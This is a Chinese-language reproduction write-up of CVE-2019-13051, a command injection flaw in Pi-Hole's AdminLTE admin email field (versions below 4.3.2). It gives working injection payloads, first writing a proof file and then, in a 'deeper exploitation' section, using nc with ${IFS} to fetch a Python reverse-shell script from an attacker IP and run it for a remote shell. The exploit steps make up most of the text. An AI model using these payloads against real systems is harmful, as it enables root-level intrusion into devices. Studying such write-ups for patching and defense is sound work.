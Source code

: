 （CVE-2019-13051）Pi-Hole 远程代码执行漏洞
==========================================

一、漏洞简介
------------

通过描述的"AdminLTE"组件上的漏洞，可以远程获得RaspberyPi设备（或应用程序正在运行的任何设备/VM）上的根访问权限。要利用此漏洞，需要对AdminLTE
web界面的管理访问权限凭据。

二、漏洞影响
------------

Pi-Hole \< 4.3.2

三、复现过程
------------

在管理员邮箱处添加

    "`test>/tmp/poc_proof.txt`"@0-sec.org

![1.png](./.resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId24.png)

由于该系统设定原因，需等待十分钟后，即可发现`/tmp/poc_proof.txt`
已经被创建

![2.jpg](./.resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId25.jpg)

### 深入利用

现在攻击机上执行反弹shell命令

    nc -nvlp 4444 < revshell.py

在管理邮箱处执行反弹shell代码

    "`nc${IFS}192.168.1.69${IFS}4444>/tmp/revshell.py`"@0-sec.org

![3.png](./.resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId27.png)

我们可以看到http请求如下所示

![4.png](./.resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId28.png)

随后等待十分钟，查看是否执行成功

在确保执行成功后，继续执行nc反弹shell命令

    nc -nvlp 4445

最后，再向网站执行反弹shell命令

    “`python${IFS}/tmp/revshell.py`”@0-sec.org

等待十分钟后，查看回显结果

![5.jpg](./.resource/(CVE-2019-13051)Pi-Hole远程代码执行漏洞/media/rId29.jpg)
